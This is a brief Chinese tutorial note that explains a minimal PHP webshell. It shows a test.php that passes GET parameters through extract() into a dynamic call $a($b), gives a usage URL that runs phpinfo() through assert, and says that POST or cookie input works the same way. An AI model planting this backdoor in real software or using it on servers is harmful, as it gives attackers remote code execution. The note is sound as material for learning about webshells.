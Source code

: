 # php木马

在服务端写一个`test.php`脚本: 
``` php
<?php
    extract($_GET);
    $a($b);
    ?>
```

在浏览器打开`localhost/test.php?a=assert&b=phpinfo()`链接, 即可执行代码.

解释:

`extract`函数是将Hash的项作为变量和值释放到本地作用域中. 即当`extract($_GET)`时, `$_GET`为`{a=assert, b=phpinfo}`, 经过提取后在本地作用域生成`a=assert`, `b=phpinfo()`的两个变量, 并进行赋值. 再进行函数调用`$a($b)`.

因为`extract`针对数组, 因此`extract($_POST)`和`extract($_COOKIE)`也行. 不同的只是提交数据的方式不同而已.

![hackbar](../images/hack/firefox_hackbar.png)